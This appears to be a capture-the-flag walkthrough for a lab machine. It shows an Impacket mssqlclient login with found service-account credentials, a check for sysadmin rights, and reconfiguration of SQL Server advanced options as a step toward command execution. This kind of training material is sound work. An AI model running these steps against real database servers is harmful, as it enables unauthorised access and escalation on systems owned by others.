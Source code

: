 
// Its probably the ms-sql user credentials, lets try connect with Impacket's tool called 'mssqlclient.py' with '-windows-auth' flag, since we know the host is windows from nmap (OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)), and we have credentials


	$ cp /usr/share/doc/python3-impacket/examples/mssqlclient.py mssqlclient.py

	$ ls
	archetype.txt  mssqlclient.py  prod.dtsConfig

	$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
	Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

	Password:
	[*] Encryption required, switching to TLS
	[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
	[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
	[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
	[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
	[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
	[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
	[!] Press help for extra shell commands
	SQL> 


// lets dig inside the DataBase, First we will check if our current ms-sql user member in 'sysadmin' role (1 means True)


	SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')


	-----------   

		  1 
          

// Now we will want to enable to display all the avalible options configured at instance level in SQL. the command will allow any user to have access to sp_configure command and will expose advanced configurtatiom parameters to an untrusted user.


	SQL> EXEC sp_configure 'Show Advanced Options', 1;
	[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.


// sql need refresh to configuration by command 'reconfigure;'


	SQL> reconfigure;


// now we will see the options of 'sp_configure'


	SQL> sp_configure;
	name                                      minimum       maximum   config_value     run_value   

	-----------------------------------   -----------   -----------   ------------   -----------   

	...
